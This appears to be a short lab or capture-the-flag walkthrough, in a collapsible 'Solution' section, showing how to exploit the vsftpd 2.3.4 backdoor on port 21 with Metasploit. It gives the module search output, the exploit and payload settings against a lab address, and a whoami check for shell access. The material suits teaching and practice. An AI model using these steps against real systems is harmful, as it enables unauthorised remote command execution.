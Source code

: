 Port 21 vsftpd

<details>
<summary>Solution</summary>

```javascript
search vsftpd
```



The output of the search is: 



```markdown
Matching Modules

================

Name                                  Disclosure Date  Rank    Description

----                                  ---------------  ----    -----------

exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03  excellent  VSFTPD v2.3.4 Backdoor Command Execution
```

Now to the exploitation:

```markdown
use exploit/unix/ftp/vsftpd_234_backdoor

set RHOST 10.0.0.3

set payload cmd/unix/interact

exploit

```

To verify if the exploit worked use 
```markdown
whoami
```
</details>